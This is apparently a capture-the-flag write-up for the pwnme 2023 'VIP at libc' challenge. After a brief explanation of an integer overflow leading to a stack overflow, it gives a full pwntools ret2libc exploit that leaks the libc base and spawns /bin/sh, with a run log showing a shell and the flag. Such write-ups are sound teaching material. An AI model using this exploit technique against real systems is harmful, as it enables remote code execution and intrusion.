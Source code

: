 ```yaml
---
title: "[pwnme 2023] vip"
date: 2023-05-07
tags: ["ctf", "nasm", "pwn", "linux", "pwnme"]
---
```


## VIP at libc

> Sooo I heard that if you were VIP, you could access some specific features!
> Maybe one of those features can be used to get inside their system?
> 
> **INFO** : *This challenge need to spawn an instance, you can connect to it with netcat: nc IP PORT*
> 
> Author: Zerotistic#0001
>
> Remote service at : nc 51.254.39.184 1335

VIP at libc is a basic stack based buffer overflow challenge. To trigger the large buffer overflow in the `access_lounge` function, we have to trigger the int overflow within the `buy_ticket` function. Then it is a classic ret2libc exploit, first we leak the address of `puts` by calling `puts(&puts@got)`, then we return to the `main` function. Finally we call `system("/bin/sh")` by triggering the bof the same way.

## Final exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# this exploit was generated via
# 1) pwntools
# 2) ctfmate

import os
import time
import pwn

BINARY = "vip_at_libc"
LIBC = "/home/nasm/Documents/pwn/pwnme/vip/libc.so.6"
LD = "/home/nasm/Documents/pwn/pwnme/vip/ld-linux-x86-64.so.2"

# Set up pwntools for the correct architecture
exe = pwn.context.binary = pwn.ELF(BINARY)
libc = pwn.ELF(LIBC)
ld = pwn.ELF(LD)
pwn.context.terminal = ["tmux", "splitw", "-h"]
pwn.context.delete_corefiles = True
pwn.context.rename_corefiles = False
p64 = pwn.p64
u64 = pwn.u64
p32 = pwn.p32
u32 = pwn.u32
p16 = pwn.p16
u16 = pwn.u16
p8  = pwn.p8
u8  = pwn.u8

host = pwn.args.HOST or '127.0.0.1'
port = int(pwn.args.PORT or 1337)


def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if pwn.args.GDB:
        return pwn.gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return pwn.process([exe.path] + argv, *a, **kw)


def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = pwn.connect(host, port)
    if pwn.args.GDB:
        pwn.gdb.attach(io, gdbscript=gdbscript)
    return io


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if pwn.args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)


gdbscript = '''
source ~/Downloads/pwndbg/gdbinit.py
'''.format(**locals())

def exp():

    io = start()

    io.sendlineafter(b"Your username: ", b"nasm")
    io.sendlineafter(b"> \n", b"2")
    io.sendlineafter(b"> \n", b"3")
    io.sendlineafter(b"> \n", b"-99999")
    io.sendlineafter(b"> \n", b"3")
    io.sendlineafter(b"> \n", b"1")
    io.sendlineafter(b"> \n", b"4")

    rop = pwn.ROP(exe)
    rop.call('puts', [exe.got.puts])
    rop.call('main')

    io.sendlineafter(b"> ", b"4"*0x18 + rop.chain())

    io.recvuntil(b"want.\n\n\n")
    libc.address = pwn.unpack(io.recvline().replace(b"\n", b"").ljust(8, b"\x00")) - 0x58ed0 - 0x28000
    pwn.log.info(f"libc: {hex(libc.address)}")

    io.sendlineafter(b"Your username: ", b"nasm")
    io.sendlineafter(b"> \n", b"2")
    io.sendlineafter(b"> \n", b"3")
    io.sendlineafter(b"> \n", b"-99999")
    io.sendlineafter(b"> \n", b"3")
    io.sendlineafter(b"> \n", b"1")
    io.sendlineafter(b"> \n", b"4")

    rop_libc = pwn.ROP(libc)
    rop_libc.call('system', [next(libc.search(b"/bin/sh\x00"))])

    print(rop_libc.dump())

    io.sendlineafter(b"> ", b"4"*0x18 + pwn.p64(rop.ret.address) + rop_libc.chain())

    io.interactive()

if __name__ == "__main__":
    exp()

"""
nasm@off:~/Documents/pwn/pwnme/vip$ python3 exploit.py REMOTE HOST=51.254.39.184 PORT=1335
[*] '/home/nasm/Documents/pwn/pwnme/vip/vip_at_libc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
    RUNPATH:  b'/home/nasm/Documents/pwn/pwnme/vip'
[*] '/home/nasm/Documents/pwn/pwnme/vip/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/nasm/Documents/pwn/pwnme/vip/ld-linux-x86-64.so.2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 51.254.39.184 on port 1335: Done
[*] Loaded 6 cached gadgets for 'vip_at_libc'
[*] libc: 0x7fdf08902000
[*] Loaded 218 cached gadgets for '/home/nasm/Documents/pwn/pwnme/vip/libc.so.6'
0x0000:   0x7fdf0892c3e5 pop rdi; ret
0x0008:   0x7fdf08ada698 [arg0] rdi = 140595900032664
0x0010:   0x7fdf08952d60 system
[*] Switching to interactive mode

Your lounge 444444444444444444444444\x1a@ has been created!
You can access it whenever you want.


$ cat flag.txt
PWNME{OOO0h_yoU_4re_V1P_4ND_g0t_sh3LL_w1th_LIBC??!!_S0_strong!!!e5b2cf}
"""
```